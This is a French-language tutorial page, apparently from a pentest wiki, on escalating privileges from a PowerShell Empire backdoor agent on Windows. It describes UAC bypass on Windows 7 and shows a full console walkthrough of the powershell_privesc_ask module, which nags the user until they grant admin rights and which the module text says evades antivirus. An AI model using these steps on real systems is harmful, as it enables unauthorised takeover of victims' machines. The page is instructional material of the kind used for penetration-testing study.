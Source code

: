 
A partir de **Windows Vista**, le concept d'**UAC** (User Account Control) à été introduit ce qui permet au process d'avoir **3 niveaux differents de permission** :

- **HIGH**: Droit **administrateur**
- **MEDIUM**: Droit d'**utilisateur** standard
- **LOW**: **Restreint** à certaines autorisations

# __High_integrity__

Pour avoir l'information sur les **permissions que nous avons** sur notre backdoor Empire, on execute la commande **[`info`](Powershell_empire#####Info)**. La ligne **high_integrity**, par defaut **False**, indique notre **niveau de permission**.

```shell
(Empire: GYRE59LF) > info

┌Agent Options─────┬───────────────────────────────────────────────┐
│ session_id       │ GYRE59LF                                      │
├──────────────────┼───────────────────────────────────────────────┤
(...)
├──────────────────┼───────────────────────────────────────────────┤
│ username         │ LAPTOP\User                                   │
├──────────────────┼───────────────────────────────────────────────┤
│ high_integrity   │ False                                         │
├──────────────────┼───────────────────────────────────────────────┤
│ process_id       │ 12828                                         │
├──────────────────┼───────────────────────────────────────────────┤
(...)
```

# __Windows 7__

## __Techniques__

Sous Windows 7, il existe plusieurs méthode pour **escalader nos privilège** :

- **Exploit d'une vulnerabilité** applicative ou système
- Faire exécuter une action en **trompant un administrateur**
- Trouver une **DB** locale de **password**
- Réutiliser des **identifiants déjà trouvés** sur une autre machine du réseau
- ...


## __Bypass UAC__

### Working

#### 1st

Certains **objets COM** ont la capacité d'**élever leurs permissions** lorsqu'ils sont appelés **depuis un programme signé** par un certificat *code signing* Microsoft.

Pour les programmes non signés, il est possible d'**injecter une dll dans un programme signé** (calc.exe par exemple). Cette dll peut donc **appeler un objet COM** qui effectuera une **auto-élévation**. 

#### 2nd

Une fois cela fait, on doit passer d'une copie de fichier à une exécution de code. Pour cela, certains programmes de Windows peuvent s'auto-elever sans notification (*sysrep* par exemple).

### Usage

Il est donc possible sur notre client windows 7 de passer administrateur avec la **commande `bypassuac`**


# __Windows 10__

## __Ask__

Une technique consiste simplement à demander à l'utilisateur en boucle jusqu'à ce qu'il accepte.

Pour cela on va utiliser le module `powershell_privesc_ask`.

```shell
(Empire: 9UPHL3C1) > usemodule powershell_privesc_ask
INFO: Set Agent to 9UPHL3C1 

 id           powershell_privesc_ask                                                 
 authors      Jack64, ,                                                              
 description  Leverages Start-Process -Verb runAs option inside a YES-Required loop 
              to prompt the user for a high integrity context before running the     
              agent code. UAC will report Powershell is requesting Administrator     
              privileges. Because this does not use the BypassUAC DLLs, it should    
              not trigger any AV alerts.                                             
 background   True                                                                   
 language     powershell                                                             
 needs_admin  False                                                                  
 opsec_safe   False                                                                  
 techniques   http://attack.mitre.org/techniques/T1088                               
 comments     https://github.com/rapid7/metasploit-                                  
              framework/blob/master/modules/exploits/windows/local/ask.rb            


┌Record Options────┬────────────────────┬──────────┬─────────────────────────────────────┐
│ Name             │ Value              │ Required │ Description                         │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Agent            │ 9UPHL3C1           │ True     │ Agent to run module on.             │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Listener         │                    │ True     │ Listener to use.                    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Obfuscate        │ False              │ False    │ Switch. Obfuscate the launcher      │
│                  │                    │          │ powershell code, uses the           │
│                  │                    │          │ ObfuscateCommand for obfuscation    │
│                  │                    │          │ types. For powershell only.         │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ ObfuscateCommand │ Token\All\1        │ False    │ The Invoke-Obfuscation command to   │
│                  │                    │          │ use. Only used if Obfuscate switch  │
│                  │                    │          │ is True. For powershell only.       │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Bypasses         │ mattifestation etw │ False    │ Bypasses as a space separated list  │
│                  │                    │          │ to be prepended to the launcher.    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ UserAgent        │ default            │ False    │ User-agent string to use for the    │
│                  │                    │          │ staging request (default, none, or  │
│                  │                    │          │ other).                             │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Proxy            │ default            │ False    │ Proxy to use for request (default,  │
│                  │                    │          │ none, or other).                    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ ProxyCreds       │ default            │ False    │ Proxy credentials                   │
│                  │                    │          │ ([domain\]username:password) to use │
│                  │                    │          │ for request (default, none, or      │
│                  │                    │          │ other).                             │
└──────────────────┴────────────────────┴──────────┴─────────────────────────────────────┘

(Empire: usemodule/powershell_privesc_ask) > set Listener http
INFO: Set Listener to http
(Empire: usemodule/powershell_privesc_ask) > generate
INFO: Tasked 9UPHL3C1 to run Task 2 
[*] Task 2 results received
Job started: BY5RXL
```

Puis lorsque la cible validera :

```shell
[*] Task 2 results received
[*] Successfully elevated!

[+] New agent FEXA5RKZ checked in
```

